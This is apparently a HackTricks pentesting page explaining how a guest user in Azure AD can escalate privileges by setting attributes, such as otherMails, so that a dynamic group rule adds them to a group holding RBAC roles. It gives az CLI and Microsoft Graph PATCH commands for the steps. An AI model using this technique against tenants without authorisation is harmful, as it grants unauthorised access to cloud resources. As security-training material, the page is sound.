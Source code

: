 # Az - Dynamic Groups Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Basic Information

**Dynamic groups** are groups that has a set of **rules** configured and all the **users or devices** that match the rules are added to the group. Every time a user or device **attribute** is **changed**, dynamic rules are **rechecked**. And when a **new rule** is **created** all devices and users are **checked**.

Dynamic groups can have **Azure RBAC roles assigned** to them, but it's **not possible** to add **AzureAD roles** to dynamic groups.

This feature requires Azure AD premium P1 license.

## Privesc

Note that by default any user can invite guests in Azure AD, so, If a dynamic group **rule** gives **permissions** to users based on **attributes** that can be **set** in a new **guest**, it's possible to **create a guest** with this attributes and **escalate privileges**. It's also possible for a guest to manage his own profile and change these attributes.

Get groups that allow Dynamic membership: **`az ad group list --query "[?contains(groupTypes, 'DynamicMembership')]" --output table`**

### Example

- **Rule example**: `(user.otherMails -any (_ -contains "security")) -and (user.userType -eq "guest")`
- **Rule description**: Any Guest user with a secondary email with the string 'security' will be added to the group

For the Guest user email, accept the invitation and check the current settings of **that user** in [https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView](https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView).\
Unfortunately the page doesn't allow to modify the attribute values so we need to use the API:

```bash
# Login with the gust user
az login --allow-no-subscriptions

# Get user object ID
az ad signed-in-user show

# Update otherMails
az rest --method PATCH \
  --url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
  --headers 'Content-Type=application/json' \
  --body '{"otherMails": ["newemail@example.com", "anotheremail@example.com"]}'

# Verify the update
az rest --method GET \
  --url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
  --query "otherMails"
```

## References

- [https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/](https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/)

{{#include ../../../../banners/hacktricks-training.md}}



